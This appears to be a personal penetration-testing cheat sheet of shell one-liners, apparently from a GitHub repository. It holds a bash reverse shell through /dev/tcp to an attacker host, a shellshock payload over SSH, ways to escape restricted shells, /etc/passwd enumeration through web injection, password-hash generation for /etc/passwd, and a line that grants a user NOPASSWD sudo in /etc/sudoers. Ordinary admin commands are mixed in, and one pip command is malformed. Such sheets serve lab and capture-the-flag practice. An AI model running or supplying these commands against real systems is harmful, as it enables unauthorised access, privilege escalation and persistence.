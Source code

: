 Proper bash shell:

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Print all users in /etc/passwd from web injection:

```shell
cat /etc/passwd | awk -F':' '{print $1}'
```

Replace each ',' with a newline:

```shell
echo -n 'kas:asddas,asdkjlaskjdlasd:asda,asdasasd:aaaaaa' | sed 's/,/\n/g'
```

Print all text between |> and <| on a new line

```shell
grep -shzoP "(\|>)(.*?)(<\|)" response | sed  "s/|>/ /g" | sed "s/<|/\n/g"
find / -name "test.py" -type f 2>/dev/null
```

Port knocking:

```shell
nmap $TARGET_IP -p 7469,8475,9842 -r --max-retries 0 --max-parallelism 1 -sT --scan-delay 200ms --max-rtt-timeout 200ms -Pn
```

```shell
nc -z $TARGET_IP PORT1 PORT2 PORT3
```


Generate user password for use in /etc/passwd

```shell
openssl passwd -1 -salt salt password
```

Find all "test.py" files

```shell
find / -name "test.py" -type f 2>/dev/null
```

List all sudo commands for user:

```shell
sudo -l
```

Start HTTP server

```shell
python3 -m http.server
```

```shell
python -m SimpleHTTPServer
```

```shell
ruby -run -e httpd path/to/your/project -p 80
```

```shell
php -S 0.0.0.0:80
```

Escape profile restricted bash accounts with SSH access

```shell
ssh $USERNAME@$TARGET_IP -t "bash --noprofile"
```

```shell
echo os.system("/bin/bash")
```

Other methods:

```shell
ssh $USERNAME@TARGET_IP -t "/bin/sh" or "/bin/bash"
```

```shell
#shellshock
ssh $USERNAME@TARGET_IP -t "() { :; }; /bin/bash"
```

Login using SSH key file

```shell
ssh -i private_id_rsa USER@$TARGET_IP -t "bash --noprofile"
```

Check for ports that are opened on other network devices

```shell
netstat -antup
```

```shell
ss -tunlp
```

---

Add current directory to the PATH variable:

```shell
export PATH=$PWD:$PATH
```

or use with SUDO:

```shell
sudo PATH=$PWD:$PATH /path/to/executable
```

---

Reverse shell to port 4444:
---
```shell
bash -c "bash -i >& /dev/tcp/$LOCAL_IP/4444 0>&1"
```

Assign user an id in case of NFS / mount
---
```shell
usermod -u $U_ID $USERNAME
```

Assign an id to a group
---
```shell
groupmod -g $GROUP_ID $GROUP_NAME
```

Add user to sudo
---
```shell
usermod -aG sudo $USERNAME
```

---

Add user to SUDOers:
---
```bash
echo "$USERNAME  ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

---


Connect using SSH in case of old/weird encryption:
---

```shell
ssh -oHostKeyAlgorithms=+ssh-dss $USER@$TARGET_IP
```

or

```shell
ssh -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa $USER@$TARGET_IP
```

---
**Python install from setup.py**
---

```shell
pip . install
```